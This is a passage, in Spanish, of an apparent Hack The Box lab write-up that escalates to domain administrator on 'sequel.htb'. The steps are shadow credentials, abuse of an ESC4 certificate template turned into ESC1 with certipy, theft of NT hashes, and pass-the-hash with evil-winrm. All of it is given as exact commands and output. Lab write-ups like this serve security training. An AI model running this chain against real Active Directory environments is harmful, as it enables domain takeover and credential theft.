*Evil-WinRM* PS C:\Users\ryan\Documents> Add-DomainObjectAcl -TargetIdentity ca_svc -Rights All -PrincipalIdentity ryan
```

Con `certipy-ad shadow` obtengo el hash NT del usuario ca_svc:

```
certipy-ad shadow auto -account 'ca_svc' -u ryan -p WqSZAF6CysDQbGb3 -dc-ip 10.129.1.36
```

```
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '592fbb63-59ea-c1ef-044f-79067a13afd6'
[*] Adding Key Credential with device ID '592fbb63-59ea-c1ef-044f-79067a13afd6' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '592fbb63-59ea-c1ef-044f-79067a13afd6' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'ca_svc@sequel.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ca_svc.ccache'
[*] Wrote credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': 3b181b914e7a9d5508ea1e20bc2b7fce
```

Evito tener que cambiar la contraseña de nuevo.

Con `certipy-ad find` se encuentra una vulnerabilidad `ESC4` en la plantilla `DunderMifflinAuthentication`:

```
certipy-ad find -vulnerable -username ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip 10.129.1.36 -stdout
```

```
<...SNIP...>

Certificate Templates
  0
    Template Name                       : DunderMifflinAuthentication
    Display Name                        : Dunder Mifflin Authentication
    Certificate Authorities             : sequel-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    
    <...SNIP...>
    
        Full Control Principals         : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Cert Publishers
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Cert Publishers
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Cert Publishers
        Write Property Enroll           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
    [+] User Enrollable Principals      : SEQUEL.HTB\Cert Publishers
    [+] User ACL Principals             : SEQUEL.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC4                              : User has dangerous permissions.
```

Se debe a que el grupo `Cert Publishers` tiene permisos  `Full Control Principals, Write Owner Principals, Write Dacl Principals y Write Property Enroll` sobre la plantilla.

Modifico la configuracion de la plantilla con `certipy-ad template` para hacerla la vulnerable a `ESC1` con la opcion `-write-default-configuration`:

```
certipy-ad template -write-default-configuration -username ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -template "DunderMifflinAuthentication" -dc-ip 10.129.1.36 -no-save
```

```
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Replacing:
[*]     nTSecurityDescriptor: b'\x01\x00\x04\x9c0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x02\x00\x1c\x00\x01\x00\x00\x00\x00\x00\x14\x00\xff\x01\x0f\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00'
[*]     flags: 66104
[*]     pKIDefaultKeySpec: 2
[*]     pKIKeyUsage: b'\x86\x00'
[*]     pKIMaxIssuingDepth: -1
[*]     pKICriticalExtensions: ['2.5.29.19', '2.5.29.15']
[*]     pKIExpirationPeriod: b'\x00@9\x87.\xe1\xfe\xff'
[*]     pKIExtendedKeyUsage: ['1.3.6.1.5.5.7.3.2']
[*]     pKIDefaultCSPs: ['2,Microsoft Base Cryptographic Provider v1.0', '1,Microsoft Enhanced Cryptographic Provider v1.0']
[*]     msPKI-Enrollment-Flag: 0
[*]     msPKI-Private-Key-Flag: 16
[*]     msPKI-Certificate-Name-Flag: 1
[*]     msPKI-Certificate-Application-Policy: ['1.3.6.1.5.5.7.3.2']
Are you sure you want to apply these changes to 'DunderMifflinAuthentication'? (y/N): y
[*] Successfully updated 'DunderMifflinAuthentication'
```

Uso de nuevo find para confirmar:

```
certipy-ad find -vulnerable -username ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip 10.129.1.36 -stdout
```

```
[!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
      ESC4                              : User has dangerous permissions.
```

Con `certipy-ad req` solicito un certificato del usuario administrator, lo empaqueta con clave privada que genero certipy en local en formato .pfx(PKCS#12). 

```
certipy-ad req -ca sequel-DC01-CA -template "DunderMifflinAuthentication" -upn administrator@sequel.htb -dc-ip 10.129.1.36 -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce
```

```
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 7
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

`certipy auth -pfx` para autenticacion con certificado en formato .pfx:

```
certipy-ad auth -dc-ip 10.129.1.36 -pfx administrator.pfx
```

hash NTLM del usuario Administrator:

```
[*] Certificate identities:
[*]     SAN UPN: 'administrator@sequel.htb'
[*] Using principal: 'administrator@sequel.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```

pass-the-hash con `evil-winrm`:

```
evil-winrm -i sequel.htb -u "Administrator" -H 7a8d4e04986afa8ed4060f75e5a0b3ff
```

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
sequel\administrator
```

Obtengo la flag root.txt:

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
c9403823************************
```

# 🦀
